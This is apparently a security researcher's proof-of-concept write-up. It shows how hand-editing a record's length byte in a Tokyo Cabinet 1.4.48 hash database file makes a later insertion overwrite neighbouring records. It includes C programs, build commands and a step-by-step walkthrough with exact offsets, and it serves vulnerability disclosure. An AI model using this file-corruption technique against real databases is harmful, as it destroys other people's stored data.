




# Record Overwriting

So this will cover the POC for how, by malicously crafting records in the database file, you can actually cause other insertions to overwrite data as the database is running. This is caused by the insertion process trusting the sizes of the record.

This was done on tokyocabinet version `1.4.48`, which according to the website (https://fallabs.com/tokyocabinet/), is the latest version at this time (03/12/2022).

## POC File Setup

All of these POC files were based off of the Tokyocabinet examples.

Source code for: `database_file_creation.c`:

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;

  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* store records */
  if(!tchdbput2(hdb, "gohan", "kamehameha") ||
     !tchdbput2(hdb, "picolo", "finger_thing") ||
     !tchdbput2(hdb, "vegeta", "final_flash")){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "put error: %s\n", tchdberrmsg(ecode));
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

Source code for: `database_insertion.c`:

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;

  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "overwritten-fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* store records */
  if(!tchdbput2(hdb, "gohan", "kaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamehameha")){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "put error: %s\n", tchdberrmsg(ecode));
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

Source code for: `database_querying.c`:

```
#include <tcutil.h>
#include <tchdb.h>
#include <stdlib.h>
#include <stdbool.h>
#include <stdint.h>

int main(int argc, char **argv){
  TCHDB *hdb;
  int ecode;
  char *value;


  /* create the object */
  hdb = tchdbnew();

  /* open the database */
  if(!tchdbopen(hdb, "overwritten-fighters.z", HDBOWRITER | HDBOCREAT)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "open error: %s\n", tchdberrmsg(ecode));
  }

  /* retrieve records */
  value = tchdbget2(hdb, "picolo");
  if(value){
    int i = 0;
    printf("%s\n", value);
  }

  /* close the database */
  if(!tchdbclose(hdb)){
    ecode = tchdbecode(hdb);
    fprintf(stderr, "close error: %s\n", tchdberrmsg(ecode));
  }

  /* delete the object */
  tchdbdel(hdb);

  return 0;
}
```

And to compile all of these:

```
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_file_creation.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_file_creation database_file_creation.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_querying.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_querying database_querying.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
$	gcc -c -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 database_insertion.c
$	LD_RUN_PATH=/lib:/usr/lib:/home/guyinatuxedo/lib:/usr/local/lib:.:.. gcc -I. -I.. -ansi -Wall -pedantic -fsigned-char -O2 -o database_insertion database_insertion.o  -L. -L.. -ltokyocabinet -lz -lbz2 -lpthread -lm -lc
```

## POC Walkthrough

So starting off, we will call the `database_file_creation` binary, to actually build our database for us:

```
$	./database_file_creation
$	ls | grep fighters.z 
fighters.z
```

Which looks like this:



So our goal is, we will edit the `gohan` record, specifically the size valeus on it, to increase it past what it should be. That way, we insert a new `gohan` record with a size that aligns with our corrupted size, which is larger than the actual size, it will write the larger record overtop the previous record, which will cause it to overflow and overwrite the following records. We will try to overwrite the `picolo` record, since that is the record is directly after it.

First lets copy the created database file over, to the one we will corrupt (that way we have a before/after for the database file):

```
$	cp fighters.z overwritten-fighters.z
```

Second, we will see that we are able to actually successfully query the `picolo` record, with the `database_querying` binary:

```
$	./database_querying 
finger_thing
```

Now we we will edit the database file. We will overwrite the value length for the gohan record, the byte at `0x8114D` with the value `0x6E`. It will look like this:



Also if you want to, just use the backup:

```
$	cp backup_overwritten-fighters.z overwritten-fighters.z
```

Now run the `database_insertion` binary to insert the record, and trigger the overwrite:

```
$	./database_insertion
```

And when we look at the database file, we see that both the `picolo` and `vegeta` record were overwritten:



And we see, we that we are no longer able to query the `picolo` record:

```
$	 ./database_querying
```

Just like that, we were able to cause a database insertion operation to overwrite records.

Also for context, this is what the database would like if we would insert the record into the DB without any size editing:

